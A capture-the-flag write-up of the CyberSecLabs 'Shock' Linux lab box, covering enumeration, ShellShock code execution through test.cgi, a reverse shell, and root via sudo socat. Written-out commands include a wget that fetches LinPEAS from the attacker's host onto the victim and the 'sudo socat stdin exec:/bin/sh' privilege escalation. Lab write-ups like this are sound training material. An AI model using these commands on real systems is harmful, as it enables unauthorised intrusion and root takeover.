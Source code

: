 ```yaml
---
layout: page
title: Shock - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/shock.html
---
```


# Shock - CyberSecLabs
----

- OS: Linux
- Level: Easy
- Vulns Found: 2


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

```md
nmap -p- -A 172.31.1.3
```

![image](https://user-images.githubusercontent.com/50459517/102672581-cb602200-4156-11eb-8dc0-56c5dcf085d2.png)

We see we have a few ports open.  21, 22 and 80.  I normally like to check out port 80 first, do a scan for directories and check other ports while that's running.  Lets see what's on port 80.

![image](https://user-images.githubusercontent.com/50459517/102672611-e16de280-4156-11eb-8149-f8f67cb0bdd5.png)

After some manual enumeration of the webpages and source code, nothing seems to jump out at me.  So lets scan for some directories.  I like to use **dirsearch** for this, but any directory busting tool should work just fine.

`dirsearch -u http://172.31.1.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 400,500 -e php,txt,html -f -t 100`

While that is running, lets look at port 21 and see if we can anonymously log in.

![image](https://user-images.githubusercontent.com/50459517/102672633-f480b280-4156-11eb-91e2-4c65a38b7dd1.png)

Login seems to fail.. I also did some quick searches with google and searchsploit for known exploits on vsFTPd 3.0.3 but didn't find anything that jumped out at me.

![image](https://user-images.githubusercontent.com/50459517/102672677-12e6ae00-4157-11eb-92ca-19c9819f673b.png)

With our scan complete, I see a directory called **cgi-bin** that jumps out at me, this directory often stores various scripts that the Apache server can use the CGI interface to execute.  So I usually like to do a quick scan for `.cgi` scripts in this directory however if I get stuck I may search for other extensions such as `.py` or `.pl` as well.

`dirsearch -u http://172.31.1.3/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 400,500 -e cgi -f -t 100`

Right away we see a file called **test.cgi**.  Now if we do a quick search for "Apache cgi script exploits" we may find a few things, however the one that sticks out to me is called ShellShock.  This is because the name of the box is called Shock as well as the HTML Title is called "Steak House Shock".  So I believe this may be vulnerable to the ShellShock vulnerability.

Now ShellShock is a vulnerability in certain versions of Bash that takes advantage of the way bash handles environment variables.  You can trick bash into executing code that is being passed into the environment variable rather than just storing the data.  Here is a nice little screenshot from Symantec explaining this better.

![image](https://user-images.githubusercontent.com/50459517/102672758-5fca8480-4157-11eb-95fa-67fb546522eb.png)

Also I found a great PoC at this website explaining how it works and how to test for it.  Lets try this out.

[https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/#:~:text=Shellshock is a security bug causing Bash to,the server%2C also known as remote code execution](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/#:~:text=Shellshock%20is%20a%20security%20bug%20causing%20Bash%20to,the%20server%2C%20also%20known%20as%20remote%20code%20execution)

I opened Burp Suite and sent **http://172.31.1.3/cgi-bin/test.cgi** to the Burp Proxy so I can mess around with the GET request.

![image](https://user-images.githubusercontent.com/50459517/102672823-8983ab80-4157-11eb-8a92-452dd49661ac.png)

Now we can send this to Repeater and see what our Response looks like.

![image](https://user-images.githubusercontent.com/50459517/102672853-9f916c00-4157-11eb-8718-7d0d33f64950.png)

Now like we saw in the article, lets modify the **Referer:** header in the Request (In this case we will need to add this header) and see if we get code execution.

![image](https://user-images.githubusercontent.com/50459517/102672873-b20ba580-4157-11eb-9fb7-bac5355f3e78.png)

Awesome!  We have code execution!  Lets get that shell now!

We will use just a basic bash one liner to send a request to out machine on port 1337.  We will start a netcat listener on our machine that will listen for the request.  Thus resulting in a reverse shell.

![image](https://user-images.githubusercontent.com/50459517/102672900-c6e83900-4157-11eb-819d-59b4a99f4941.png)

![image](https://user-images.githubusercontent.com/50459517/102672934-db2c3600-4157-11eb-8d2e-d5655d299e7d.png)

Now we have a shell as www-data.  After looking around we find a user named scott.  In his home directory we find **access.txt** which we have permissions to read.

![image](https://user-images.githubusercontent.com/50459517/102672947-e717f800-4157-11eb-89d5-aa3c19b5d8e5.png)

With that out of the way, I normally like to run some type of post-enumeration script like LinPEAS.  We can just host up the file with **python -m SimpleHTTPServer 80** on our machine and then **wget http://ip/linpeas.sh** onto the victim machine in a directory we have rwx permissions in (i.e. /tmp)

![image](https://user-images.githubusercontent.com/50459517/102673038-2d6d5700-4158-11eb-9eb9-a0523ab69804.png)

Now lets run the file and see what it finds for us.

![image](https://user-images.githubusercontent.com/50459517/102673060-3d853680-4158-11eb-86cb-a0038444b4a5.png)

Unfortunately I had some issues with the script stopping at Internet Access checks and forcing me to stop the script.  I troubleshooted this for a little bit before deciding to move on as I think it may have been something with the machine timing out during this check.

Anyways I decided to do a little manual enumeration before trying another script.  Luckily I found something first thing!  I ran **sudo -l** to list anything I may have permissions to run as a sudo user.

![image](https://user-images.githubusercontent.com/50459517/102673082-4d047f80-4158-11eb-9532-fff36f7a688d.png)

As you can see, we have permissions to run socat as root with no password.  Great!  Lets check GTFOBins to see if we can escalate our privileges.

[https://gtfobins.github.io/](https://gtfobins.github.io/)

Per GTFOBins, we see we can run **sudo socat stdin exec:/bin/sh** to escalate our privileges.  This works because we have permission to run the socat utility as root with no password needed.  The option **stdin**(Standard Input) uses a file descriptor of 0 and **exec:/bin/bash** means it will execute a bash terminal at the end of the pipe.  So if I understand it correctly, instead of using socat to connect to or listen in on a connection from another host, we are just passing the /bin/bash script into our terminal.  And since we are running this as root, we will open a terminal instance as root, thus resulting in use escalating our privileges.

![image](https://user-images.githubusercontent.com/50459517/102673108-686f8a80-4158-11eb-94d1-7fb4b2343874.png)

And that's it!  This was a fun little box that shows a pretty straight forward vulnerability in ShellShock as well as a common mis-configuration seen that can allow low level users to run certain programs/files as elevated users.
